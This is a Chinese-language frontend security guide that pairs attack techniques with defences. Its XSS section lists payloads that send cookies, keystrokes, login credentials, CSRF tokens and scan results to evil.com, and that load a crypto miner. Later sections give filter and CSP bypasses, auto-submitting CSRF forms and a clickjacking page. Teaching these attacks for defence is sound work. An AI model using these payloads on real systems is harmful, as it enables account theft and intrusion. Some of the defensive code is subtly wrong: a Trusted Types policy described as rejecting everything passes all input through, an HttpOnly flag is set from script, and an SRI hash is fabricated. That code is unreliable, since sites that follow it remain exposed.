

# 前端安全

> 从XSS到WebAuthn，全面覆盖前端安全攻防技术

---

## 一、前端安全基础

### 1.1 攻击面



### 1.2 浏览器安全模型

| 机制 | 作用 | 实现 |
|:-----|:-----|:-----|
| 同源策略 (SOP) | 限制跨域资源访问 | 浏览器内置 |
| 内容安全策略 (CSP) | 控制内容加载 | HTTP头/Meta |
| CORS | 跨域资源共享 | HTTP头 |
| X-Frame-Options | 点击劫持防护 | HTTP头 |
| Subresource Integrity | 资源完整性校验 | HTML标签属性 |
| Trusted Types | DOM XSS防护 | CSP指令 |
| COEP/COOP | 跨域隔离 | HTTP头 |
| Permissions Policy | API权限控制 | HTTP头 |

---

## 二、XSS深入

### 2.1 XSS类型

| 类型 | 触发方式 | 持久化 | 影响范围 |
|:-----|:---------|:-------|:---------|
| 反射型XSS | URL参数中 | 否 | 单次请求 |
| 存储型XSS | 存储在服务器 | 是 | 所有访问者 |
| DOM型XSS | 客户端JavaScript | 取决于源 | 客户端处理 |
| 自XSS | 开发者工具控制台 | 否 | 仅自身 |
| Mutillate XSS | CSP绕过 | 取决于源 | 高级攻击 |

### 2.2 XSS Payload

```javascript
// === Cookie窃取 ===
document.location = 'http://evil.com/steal?cookie=' + document.cookie
new Image().src = 'http://evil.com/steal?c=' + encodeURIComponent(document.cookie)
fetch('http://evil.com/steal?c=' + document.cookie)

// === 页面内容窃取 ===
document.location = 'http://evil.com/steal?html=' + encodeURIComponent(document.body.innerHTML)

// === 键盘记录 ===
document.onkeydown = function(e) {
    fetch('http://evil.com/key?k=' + e.key)
}

// === 表单劫持 ===
document.getElementById('login-form').addEventListener('submit', function(e) {
    fetch('http://evil.com/steal?u=' + this.username.value + '&p=' + this.password.value)
})

// === CSRF Token窃取 ===
fetch('/api/csrf-token').then(r => r.text()).then(t => {
    fetch('http://evil.com/steal?token=' + t)
})

// === 内网扫描 (SSRF) ===
fetch('http://192.168.1.1:8080/admin').then(r => r.text()).then(d => {
    fetch('http://evil.com/scan?d=' + btoa(d))
})

// === 端口扫描 ===
function scan(host, port) {
    var img = new Image()
    img.onload = function() {
        fetch('http://evil.com/open?host=' + host + '&port=' + port)
    }
    img.onerror = function() { /* closed */ }
    img.src = 'http://' + host + ':' + port + '/favicon.ico'
}

// === 浏览器指纹 ===
var fp = {
    screen: screen.width + 'x' + screen.height,
    languages: navigator.languages.join(','),
    platform: navigator.platform,
    userAgent: navigator.userAgent,
    plugins: Array.from(navigator.plugins).map(p => p.name).join(','),
    timezone: Intl.DateTimeFormat().resolvedOptions().timeZone
}
fetch('http://evil.com/fp?d=' + JSON.stringify(fp))

// === Crypto Mining (Monero) ===
var script = document.createElement('script')
script.src = 'https://cdn.coinhive.com/lib/coinhive.min.js'
document.body.appendChild(script)
```

### 2.3 XSS Bypass技术

```javascript
// === WAF/Filter Bypass ===

// 1. 大小写混合
<ScRiPt>alert(1)</sCrIpT>


// 2. 标签属性变体
<details/open/ontoggle="alert(1)">
<svg/onload="alert(1)">
<body/onload="alert(1)">

// 3. HTML实体编码

<svg onload="&#x61;&#x6C;&#x65;&#x72;&#x74;(1)">

// 4. Unicode编码


// 5. JavaScript伪协议
<a href="javascript:alert(1)">click</a>
<iframe src="javascript:alert(1)">
<object data="javascript:alert(1)">

// 6. data: URI
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
<iframe src="data:text/html,<script>alert(1)</script>">

// 7. eval编码
eval(atob('YWxlcnQoMSk='))
eval(String.fromCharCode(97,108,101,114,116,40,49,41))

// 8. 注释绕过
<scri<!--test-->pt>alert(1)</sc<!--test-->ript>

// 9. 空格替代

<svg%0aonload=alert(1)>

// 10. DOM clobbering
<form id="xss"><input name="attributes"></form>
<script>
    document.getElementById('xss').attributes  // 可能被劫持
</script>
```

### 2.4 DOM XSS

```javascript
// === 常见的DOM XSS源 ===

// 1. URL参数
const params = new URLSearchParams(window.location.search)
document.getElementById('output').innerHTML = params.get('name')  // ❌

// 2. URL Hash
document.getElementById('output').innerHTML = window.location.hash.substring(1)  // ❌

// 3. document.referrer
document.getElementById('output').innerHTML = document.referrer  // ❌

// 4. window.name
document.getElementById('output').innerHTML = window.name  // ❌

// 5. postMessage
window.addEventListener('message', function(event) {
    document.getElementById('output').innerHTML = event.data  // ❌
})

// 6. localStorage/sessionStorage
document.getElementById('output').innerHTML = localStorage.getItem('userData')  // ❌

// 7. document.cookie
document.getElementById('output').innerHTML = document.cookie  // ❌

// 8. XHR/Fetch响应
fetch('/api/data').then(r => r.text()).then(data => {
    document.getElementById('output').innerHTML = data  // ❌
})

// === 安全的DOM操作 ===
// ✅ 使用textContent代替innerHTML
element.textContent = userInput

// ✅ 使用setAttribute设置属性
element.setAttribute('src', sanitizedUrl)

// ✅ 使用createElement
var img = document.createElement('img')
img.src = sanitizedUrl

// ✅ 使用DOMPurify
element.innerHTML = DOMPurify.sanitize(userInput)
```

---

## 三、CSRF深入

### 3.1 CSRF攻击向量

```html
<!-- 1. 自动提交表单 -->
<form id="csrf" action="https://bank.com/transfer" method="POST" target="hidden">
    <input name="amount" value="1000">
    <input name="to" value="attacker">
</form>
<script>document.getElementById('csrf').submit()</script>

<!-- 2. 图片/脚本标签 -->

<script src="https://bank.com/delete_account?user=attacker"></script>

<!-- 3. AJAX请求 (需要CORS) -->
<script>
    fetch('https://bank.com/api/transfer', {
        method: 'POST',
        credentials: 'include',
        body: JSON.stringify({amount: 1000, to: 'attacker'}),
        headers: {'Content-Type': 'application/json'}
    })
</script>

<!-- 4. WebSocket -->
<script>
    var ws = new WebSocket('wss://bank.com')
    ws.onopen = function() {
        ws.send(JSON.stringify({action: 'transfer', amount: 1000, to: 'attacker'}))
    }
</script>
```

### 3.2 CSRF Token实现

```javascript
// 1. CSRF Token生成 (服务端)
// 生成随机token
const crypto = require('crypto')
const csrfToken = crypto.randomBytes(32).toString('hex')

// 2. Token绑定到会话
req.session.csrfToken = csrfToken

// 3. 在HTML表单中嵌入
// <input type="hidden" name="_csrf" value="<%= csrfToken %>">

// 4. 在AJAX请求中设置
// <meta name="csrf-token" content="<%= csrfToken %>">
// 或者:
const token = document.querySelector('meta[name="csrf-token"]').content
fetch('/api/transfer', {
    method: 'POST',
    headers: {
        'X-CSRF-Token': token,
        'Content-Type': 'application/json'
    },
    body: JSON.stringify({amount: 1000, to: 'attacker'})
})

// 5. Token验证 (服务端)
app.post('/api/transfer', (req, res) => {
    if (req.headers['x-csrf-token'] !== req.session.csrfToken) {
        return res.status(403).json({error: 'CSRF validation failed'})
    }
    // 处理请求
})

// 6. Double Submit Cookie
// 服务端设置一个随机cookie
res.cookie('csrf_cookie', randomValue, { httpOnly: false, sameSite: 'lax' })
// 客户端从cookie取值+请求头
// 服务端验证cookie值 == header值
```

### 3.3 SameSite Cookie详解

```javascript
// SameSite属性设置
// Set-Cookie: session=abc123; SameSite=Lax; HttpOnly; Secure

// Strict: 仅同站请求发送Cookie
// Lax: 同站 + 顶级导航GET请求发送Cookie (默认)
// None: 所有请求发送 (需Secure标志)

// SameSite=Lax 防护场景
// × POST表单提交 (跨站)
// × AJAX POST (跨站)
// × /<script>/<iframe>加载 (跨站)
// √ 用户点击链接 (跨站GET导航)

// SameSite=Lax 绕过
// 1. GET请求的动作
// site.com/changeEmail?email=attacker@evil.com

// 2. POST→GET转换
// 部分应用支持GET处理状态变更

// 3. 子域名攻击
// sub.attacker.com -> sub.bank.com (如果子域名有漏洞)
```

---

## 四、CSP深入

### 4.1 严格CSP实现

```javascript
// 基于Nonce的严格CSP
Content-Security-Policy: 
  default-src 'self';
  script-src 'nonce-{random}' 'strict-dynamic';
  style-src 'self' 'unsafe-inline';
  img-src 'self' https:;
  object-src 'none';
  base-uri 'none';
  form-action 'self';
  frame-ancestors 'none';

// 动态Nonce生成 (Node.js)
app.use((req, res, next) => {
    res.locals.nonce = crypto.randomBytes(16).toString('base64')
    res.setHeader('Content-Security-Policy', 
        `default-src 'self'; script-src 'nonce-${res.locals.nonce}' 'strict-dynamic'`)
    next()
})

// 在HTML中使用
<script nonce="<%= nonce %>">
    // 只有带正确nonce的脚本会执行
    const data = fetch('/api/data')
</script>

// 基于Hash的CSP
script-src 'sha256-abc123def456...' 'sha384-ghi789jkl012...'
```

### 4.2 CSP绕过

```html
<!-- 1. 如果允许'unsafe-inline' -->
<script>alert(1)</script>

<!-- 2. 如果允许'unsafe-eval' -->
<script>eval('alert(1)')</script>

<!-- 3. JSONP绕过 -->
<script src="https://api.google.com/...?callback=alert(1)">

<!-- 4. CDN上的AngularJS沙箱绕过 -->
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.3/angular.min.js">
<script>
    angular.module('app').config(function($sceProvider) {
        $sceProvider.enabled(false)
    })
</script>

<!-- 5. 允许特定CDN的利用 -->
<script src="https://cdn.example.com/jquery.min.js">
<script>
    $.getScript('https://evil.com/xss.js')
</script>

<!-- 6. URL重定向绕过 -->
<script src="https://trusted.com/redirect?url=https://evil.com/xss.js">

<!-- 7. Base标签滥用 (base-uri未限制) -->
<base href="https://evil.com/">
<script src="/js/app.js">  <!-- 实际加载: https://evil.com/js/app.js -->
```

### 4.3 CSP Reporting

```javascript
// CSP报告端点
Content-Security-Policy: ...; report-uri /csp-report

// CSP报告格式
{
    "csp-report": {
        "document-uri": "https://example.com/page",
        "referrer": "https://example.com/",
        "blocked-uri": "https://evil.com/script.js",
        "violated-directive": "script-src 'self'",
        "effective-directive": "script-src",
        "original-policy": "default-src 'self'; script-src 'self'",
        "disposition": "enforce",
        "script-sample": "alert('xss')",
        "status-code": 200,
        "source-file": "https://example.com/page",
        "line-number": 1,
        "column-number": 1
    }
}

// 使用report-to (CSP Level 3)
Content-Security-Policy: ...; report-to csp-endpoint
Reporting-Endpoints: csp-endpoint="https://example.com/csp-reports"

// 报告端实现 (Node.js)
app.post('/csp-report', (req, res) => {
    const report = req.body['csp-report']
    console.log('CSP Violation:', report['violated-directive'], report['blocked-uri'])
    // 记录到数据库/告警
    res.status(204).end()
})
```

---

## 五、点击劫持

### 5.1 攻击实现

```html
<!-- 点击劫持攻击页面 -->
<!DOCTYPE html>
<html>
<head>
    <title>免费领取iPhone</title>
    <style>
        iframe {
            position: absolute;
            top: -50px;
            left: -100px;
            opacity: 0.001;  /* 几乎透明 */
            z-index: 10;
            width: 500px;
            height: 500px;
        }
        .button {
            position: absolute;
            top: 300px;
            left: 200px;
            z-index: 1;
            background: red;
            color: white;
            padding: 20px;
            font-size: 24px;
        }
    </style>
</head>
<body>
    <div class="button">点击领取免费iPhone!</div>
    <iframe src="https://bank.com/transfer-form"></iframe>
</body>
</html>
```

### 5.2 防护实现

```html
<!-- 1. X-Frame-Options -->
<!-- 阻止所有嵌入 -->
X-Frame-Options: DENY
<!-- 仅允许同源嵌入 -->
X-Frame-Options: SAMEORIGIN
<!-- 允许特定来源 (非标准) -->
X-Frame-Options: ALLOW-FROM https://trusted.com

<!-- 2. CSP frame-ancestors -->
Content-Security-Policy: frame-ancestors 'none'
Content-Security-Policy: frame-ancestors 'self'
Content-Security-Policy: frame-ancestors https://trusted.com

<!-- 3. 反Frame嵌入JavaScript -->
<style>
    body { display: none; }
</style>
<script>
    if (self === top) {
        document.body.style.display = 'block'
    } else {
        top.location = self.location
    }
</script>
```

---

## 六、安全存储

### 6.1 存储对比

| 特性 | Cookie | LocalStorage | SessionStorage | IndexedDB |
|:-----|:-------|:-------------|:---------------|:----------|
| 容量 | 4KB | 5-10MB | 5-10MB | 50MB+ |
| 作用域 | 域名 | 域名+协议+端口 | 域名+协议+端口+标签页 | 域名 |
| 生命周期 | 配置或会话结束 | 持久 | 标签页关闭 | 持久 |
| HTTP请求 | 自动发送 | 不发送 | 不发送 | 不发送 |
| HttpOnly | 支持 | 不支持 | 不支持 | 不支持 |
| Secure | 支持 | 不支持 | 不支持 | 不支持 |
| SameSite | 支持 | 不支持 | 不支持 | 不支持 |
| 服务器访问 | 支持 | 不支持 | 不支持 | 不支持 |
| 结构化数据 | 不支持 | 字符串 | 字符串 | 支持对象 |

### 6.2 安全存储最佳实践

```javascript
// === Cookie存储 ===
// 适合: Session ID, CSRF Token
// 必须: HttpOnly + Secure + SameSite

// 设置安全Cookie
document.cookie = "session=abc123; HttpOnly; Secure; SameSite=Strict; Path=/; Max-Age=3600"

// 服务端设置
res.cookie('session', sessionId, {
    httpOnly: true,
    secure: true,
    sameSite: 'strict',
    maxAge: 3600000,
    path: '/'
})

// === 不要存储什么 ===
// ❌ LocalStorage: JWT Token / API Key / 用户密码 / 个人信息
// ❌ SessionStorage: JWT Token / API Key
// ❌ Cookie (非HttpOnly): 任何认证信息

// === 存储JWT Token的方案 ===
// 方案1: HttpOnly Cookie (推荐)
res.cookie('access_token', token, {
    httpOnly: true,
    secure: true,
    sameSite: 'strict',
    path: '/api'
})

// 方案2: 内存存储
// 使用闭包或模块变量存储
const tokenStore = new Map()
tokenStore.set(sessionId, token)

// 方案3: BFF (Backend for Frontend)
// 服务端处理token，前端只获取session cookie

// === 加密LocalStorage数据 ===
// 如果必须存储敏感数据，需要加密
const CryptoJS = require('crypto-js')

function secureSet(key, value, masterKey) {
    const encrypted = CryptoJS.AES.encrypt(JSON.stringify(value), masterKey).toString()
    localStorage.setItem(key, encrypted)
}

function secureGet(key, masterKey) {
    const encrypted = localStorage.getItem(key)
    if (!encrypted) return null
    const decrypted = CryptoJS.AES.decrypt(encrypted, masterKey).toString(CryptoJS.enc.Utf8)
    return JSON.parse(decrypted)
}
```

---

## 七、安全通信

### 7.1 HTTPS配置

```nginx
# HTTPS最佳配置
server {
    listen 443 ssl http2;
    server_name example.com;
    
    # 证书
    ssl_certificate /etc/letsencrypt/live/example.com/fullchain.pem;
    ssl_certificate_key /etc/letsencrypt/live/example.com/privkey.pem;
    
    # 协议
    ssl_protocols TLSv1.2 TLSv1.3;
    
    # 加密套件
    ssl_ciphers ECDHE-ECDSA-AES128-GCM-SHA256:ECDHE-RSA-AES128-GCM-SHA256:ECDHE-ECDSA-AES256-GCM-SHA384:ECDHE-RSA-AES256-GCM-SHA384:ECDHE-ECDSA-CHACHA20-POLY1305:ECDHE-RSA-CHACHA20-POLY1305:DHE-RSA-AES128-GCM-SHA256:DHE-RSA-AES256-GCM-SHA384;
    
    ssl_prefer_server_ciphers off;
    
    # HSTS
    add_header Strict-Transport-Security "max-age=63072000; includeSubDomains; preload" always;
    
    # 会话缓存
    ssl_session_cache shared:SSL:10m;
    ssl_session_timeout 1d;
    ssl_session_tickets off;
    
    # OCSP Stapling
    ssl_stapling on;
    ssl_stapling_verify on;
    resolver 8.8.8.8 8.8.4.4 valid=300s;
    resolver_timeout 5s;
}
```

### 7.2 CORS配置

```javascript
// 安全CORS配置 (Express)
const cors = require('cors')

// ❌ 不安全: 允许所有来源
app.use(cors())

// ✅ 安全: 白名单
const allowedOrigins = ['https://app.example.com', 'https://admin.example.com']

app.use(cors({
    origin: function(origin, callback) {
        if (!origin || allowedOrigins.indexOf(origin) !== -1) {
            callback(null, true)
        } else {
            callback(new Error('Not allowed by CORS'))
        }
    },
    credentials: true,  // 允许Cookie
    methods: ['GET', 'POST', 'PUT', 'DELETE'],
    allowedHeaders: ['Content-Type', 'Authorization', 'X-CSRF-Token'],
    maxAge: 86400  // 预检缓存24小时
}))

// ✅ 动态CORS (开发环境)
const whitelist = ['http://localhost:3000', 'https://example.com']
const corsOptions = {
    origin: (origin, callback) => {
        if (whitelist.indexOf(origin) !== -1 || !origin) {
            callback(null, true)
        } else {
            callback(new Error('Not allowed by CORS'))
        }
    }
}
```

### 7.3 WebSocket安全

```javascript
// 客户端
const ws = new WebSocket('wss://api.example.com/ws')

ws.onopen = function() {
    // 认证
    ws.send(JSON.stringify({
        type: 'auth',
        token: authToken
    }))
}

ws.onmessage = function(event) {
    const data = JSON.parse(event.data)
    // 处理数据
}

// 服务端 (Node.js)
const WebSocket = require('ws')
const wss = new WebSocket.Server({ server })

wss.on('connection', (ws, req) => {
    // 验证Origin
    const origin = req.headers.origin
    if (!allowedOrigins.includes(origin)) {
        ws.close(1008, 'Origin not allowed')
        return
    }
    
    // 等待认证
    ws.on('message', (data) => {
        const msg = JSON.parse(data)
        if (msg.type === 'auth') {
            // 验证Token
            if (validateToken(msg.token)) {
                ws.authenticated = true
                ws.send(JSON.stringify({type: 'auth_success'}))
            } else {
                ws.close(1008, 'Authentication failed')
            }
        } else if (ws.authenticated) {
            // 处理业务消息
        }
    })
    
    // 心跳
    ws.isAlive = true
    ws.on('pong', () => { ws.isAlive = true })
})

// 心跳检测
const interval = setInterval(() => {
    wss.clients.forEach((ws) => {
        if (ws.isAlive === false) return ws.terminate()
        ws.isAlive = false
        ws.ping()
    })
}, 30000)
```

---

## 八、第三方资源安全

### 8.1 SRI (Subresource Integrity)

```html
<!-- ✅ 使用SRI -->
<link rel="stylesheet" href="https://cdn.example.com/bootstrap.min.css"
      integrity="sha384-1BmE4kWBq78iYhFldvKuhfTAU6auU8tT94WrHftjDbrCEXSU1oBoqyl2QvZ6jIW3"
      crossorigin="anonymous">

<script src="https://cdn.example.com/react.production.min.js"
        integrity="sha384-7p3aU5KkFhZ4C5GApFfF/t5U5KfF8CzXh4qOeF2X5F8CzXh4qOeF2X5F8CzXh4qOeF2"
        crossorigin="anonymous"></script>

<!-- ❌ 不使用SRI -->
<script src="https://cdn.example.com/jquery.min.js"></script>

<!-- 生成SRI Hash -->
openssl dgst -sha384 -binary jquery.min.js | openssl base64 -A
```

### 8.2 Trusted Types

```javascript
// 启用Trusted Types
Content-Security-Policy: require-trusted-types-for 'script'

// 创建策略
if (window.trustedTypes && trustedTypes.createPolicy) {
    const sanitizer = trustedTypes.createPolicy('sanitize', {
        createHTML: (input) => {
            return DOMPurify.sanitize(input)
        },
        createScriptURL: (input) => {
            const allowed = ['https://cdn.example.com/', 'https://api.example.com/']
            if (allowed.some(url => input.startsWith(url))) {
                return input
            }
            throw new Error('URL not allowed')
        }
    })
    
    // 使用
    element.innerHTML = sanitizer.createHTML(userInput)
    script.src = sanitizer.createScriptURL(url)
}

// 默认策略 (拒绝所有)
if (trustedTypes && trustedTypes.createPolicy) {
    trustedTypes.createPolicy('default', {
        createHTML: (input) => input,
        createScript: (input) => input,
        createScriptURL: (input) => input
    })
}

// 监控Trusted Types违规
document.addEventListener('securitypolicyviolation', (e) => {
    if (e.violatedDirective.includes('trusted-types')) {
        console.error('Trusted Types violation:', e.sample)
    }
})
```

### 8.3 PostMessage安全

```javascript
// ✅ 安全的postMessage
// 发送方
const targetWindow = document.getElementById('iframe').contentWindow
targetWindow.postMessage({type: 'auth', token: '...'}, 'https://trusted.com')

// 接收方
window.addEventListener('message', function(event) {
    // 1. 验证来源
    if (event.origin !== 'https://trusted.com') return
    
    // 2. 验证源窗口
    if (!event.source || event.source.closed) return
    
    // 3. 验证数据类型
    if (typeof event.data !== 'object' || !event.data.type) return
    
    // 4. 处理消息
    switch (event.data.type) {
        case 'auth':
            handleAuth(event.data.token)
            break
        case 'data':
            handleData(event.data.payload)
            break
        default:
            console.warn('Unknown message type:', event.data.type)
    }
})

// ❌ 不安全的postMessage
window.addEventListener('message', function(event) {
    // 未验证origin
    document.getElementById('output').innerHTML = event.data  // DOM XSS!
    eval(event.data)  // Code Execution!
})
```

---

## 九、现代化前端安全

### 9.1 React安全

```jsx
// ✅ React自动转义
function SafeComponent({userInput}) {
    return <div>{userInput}</div>  // 自动转义HTML
}

// ❌ 危险: dangerouslySetInnerHTML
function DangerousComponent({htmlContent}) {
    return <div dangerouslySetInnerHTML={{__html: htmlContent}} />
}

// ✅ 安全: 使用DOMPurify
import DOMPurify from 'dompurify'

function SanitizedComponent({htmlContent}) {
    return <div dangerouslySetInnerHTML={{__html: DOMPurify.sanitize(htmlContent)}} />
}

// ❌ 危险: href属性
function LinkComponent({url}) {
    return <a href={url}>Click</a>  // javascript:alert(1)
}

// ✅ 安全: URL验证
function SafeLink({url}) {
    const safeUrl = url.startsWith('https://') ? url : '#'
    return <a href={safeUrl}>Click</a>
}
```

### 9.2 Vue安全

```vue
<!-- ✅ Vue自动转义 -->
<template>
    <div>{{ userInput }}</div>  <!-- 自动转义 -->
</template>

<!-- ❌ 危险: v-html -->
<template>
    <div v-html="htmlContent"></div>
</template>

<!-- ✅ 安全: 过滤后使用 -->
<template>
    <div v-html="sanitizedHtml"></div>
</template>

<script>
import DOMPurify from 'dompurify'
export default {
    computed: {
        sanitizedHtml() {
            return DOMPurify.sanitize(this.htmlContent)
        }
    }
}
</script>
```

### 9.3 Angular安全

```typescript
// ✅ Angular默认转义
export class UserComponent {
    userInput: string = '<script>alert(1)</script>'
    // 模板: <div>{{ userInput }}</div>  // 自动转义
}

// ❌ 危险: bypassSecurityTrustXxx
export class DangerousComponent {
    constructor(private sanitizer: DomSanitizer) {}
    
    dangerousHtml() {
        return this.sanitizer.bypassSecurityTrustHtml(userInput)
    }
    
    dangerousUrl() {
        return this.sanitizer.bypassSecurityTrustUrl(userInput)
    }
}

// ✅ 安全: 使用sanitizer
export class SafeComponent {
    constructor(private sanitizer: DomSanitizer) {}
    
    safeHtml() {
        return this.sanitizer.sanitize(SecurityContext.HTML, userInput)
    }
}
```

### 9.4 SPA路由安全

```javascript
// React Router - 防止开放重定向
<Route path="/redirect/:url" component={RedirectComponent} />

function RedirectComponent({match}) {
    const url = decodeURIComponent(match.params.url)
    const allowedDomains = ['example.com', 'app.example.com']
    
    try {
        const parsed = new URL(url)
        if (!allowedDomains.includes(parsed.hostname)) {
            return <Navigate to="/" />
        }
    } catch {
        return <Navigate to="/" />
    }
    
    return <Navigate to={url} />
}

// Vue Router - 防止开放重定向
router.beforeEach((to, from, next) => {
    if (to.query.redirect) {
        const allowedPaths = ['/dashboard', '/profile', '/settings']
        if (!allowedPaths.includes(to.query.redirect)) {
            next('/')
            return
        }
    }
    next()
})
```

---

## 十、安全审计工具

### 10.1 浏览器拓展

| 工具 | 用途 | 类型 |
|:-----|:-----|:-----|
| Wappalyzer | 技术栈识别 | 浏览器插件 |
| LightHouse | 安全审计 | 浏览器内置 |
| Security Headers | 安全头检查 | 在线工具 |
| CSP Evaluator | CSP策略评估 | 在线工具 |
| Observatory | 安全评分 | Mozilla工具 |
| Retire.js | JS库漏洞检测 | 浏览器插件 |

### 10.2 自动化扫描

```bash
# OWASP ZAP (前端扫描)
zap-cli quick-scan https://example.com

# Lighthouse CI
lighthouse https://example.com --output json --output html

# SecurityHeaders.com
curl -s "https://securityheaders.com/?q=example.com&followRedirects=on"

# Mozilla Observatory
pip install observatory-cli
observatory scan example.com
```

---

## 十一、攻击模拟

### 11.1 XSS模拟测试

```javascript
// XSS测试用例
const xssPayloads = [
    '<script>alert(1)</script>',
    '',
    '<svg onload=alert(1)>',
    'javascript:alert(1)',
    '" onclick=alert(1)',
    '\' onclick=alert(1)',
    '` onclick=alert(1)',
    '{{constructor.constructor(\'alert(1)\')()}}',
    '<script>eval(\'alert(1)\')</script>',
    '<details/open/ontoggle="alert(1)">',
    '<body onload=alert(1)>',
]

// 自动化测试
xssPayloads.forEach(payload => {
    const encoded = encodeURIComponent(payload)
    const urls = [
        `https://example.com/search?q=${encoded}`,
        `https://example.com/profile?name=${encoded}`,
        `https://example.com/redirect?url=${encoded}`,
    ]
    
    urls.forEach(url => {
        // 使用puppeteer或其他浏览器自动化
        console.log(`Testing: ${url}`)
    })
})
```

---

## 十二、速查总表

### 12.1 安全头配置

| 安全头 | 推荐值 | 作用 |
|:-------|:-------|:-----|
| Content-Security-Policy | `default-src 'self'; script-src 'nonce-...'` | XSS防护 |
| X-Content-Type-Options | `nosniff` | MIME嗅探 |
| X-Frame-Options | `DENY` 或 `SAMEORIGIN` | 点击劫持 |
| Strict-Transport-Security | `max-age=63072000; includeSubDomains` | HTTPS强制 |
| Referrer-Policy | `strict-origin-when-cross-origin` | referer控制 |
| Permissions-Policy | `geolocation=(), camera=()` | API权限 |
| Cross-Origin-Opener-Policy | `same-origin` | 跨域隔离 |
| Cross-Origin-Embedder-Policy | `require-corp` | 跨域嵌入 |

### 12.2 前端安全检查清单

```
□ CSP配置 (strict模式)
□ HTTPS部署 (HSTS)
□ X-Frame-Options/Frame-Ancestors
□ X-Content-Type-Options
□ SRI for external resources
□ Trusted Types implemented
□ SameSite Cookie configured
□ CSRF Token protection
□ Input sanitization (DOMPurify)
□ Output encoding (context-aware)
□ Secure postMessage origin validation
□ No sensitive data in localStorage
□ No dangerous API calls (eval, innerHTML)
□ Dependency vulnerability audit
□ Regular security headers scan
□ Browser security features audit
```

### 12.3 推荐资源

| 资源 | URL |
|:-----|:-----|
| OWASP Cheat Sheet | cheatsheetseries.owasp.org |
| CSP Evaluator | csp-evaluator.withgoogle.com |
| Security Headers | securityheaders.com |
| SRI Hash Generator | srihash.org |
| Report URI | report-uri.com |

---

> **参考资源**
>
> - OWASP Frontend Security
> - MDN Web Security
> - Google Web Security Blog
> - PortSwigger Research
> - SANS Web Security

[XSS全技巧](12-xss.md)
[OWASP Top 10 速查表](08-owasp-top10.md)